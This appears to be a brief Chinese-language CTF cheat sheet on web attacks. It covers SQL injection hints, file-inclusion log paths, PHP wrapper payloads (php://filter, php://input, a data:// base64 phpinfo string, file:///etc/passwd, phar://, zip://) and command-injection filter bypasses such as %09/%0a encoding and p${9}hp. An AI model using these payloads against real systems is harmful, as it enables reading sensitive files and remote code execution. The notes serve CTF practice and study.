 sqli:爆多字段别忘了用group_concat
爆字段别忘了指定数据库以及表[[EXAM特供WP#^1e5e69]]
fileinclusion:写日志！伪协议！
日志：
```
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/httpd/access.log
```
伪协议：
```
php://filter/read=convert.base64-encode/resource=
php://input
data://text/plain;base64,PD9waHAgZWNobyBwaHBpbmZvKCk7Pz4=
file:///etc/passwd
phar://压缩包名/内部文件名
zip://压缩包绝对路径#内部文件名（对#编码）
```
rce:遇到2>&1代表输出错误，输出错误的一律用反引号将命令结果输出到错误中。
遇到无回显的就用重定向到文件内进行查看结果，活用通配符
想象tab补全的内容可能会输出有趣的内容。tab->%09 回车->%0a
过滤特定词汇的使用不存在的变量绕过p${9}hp -> php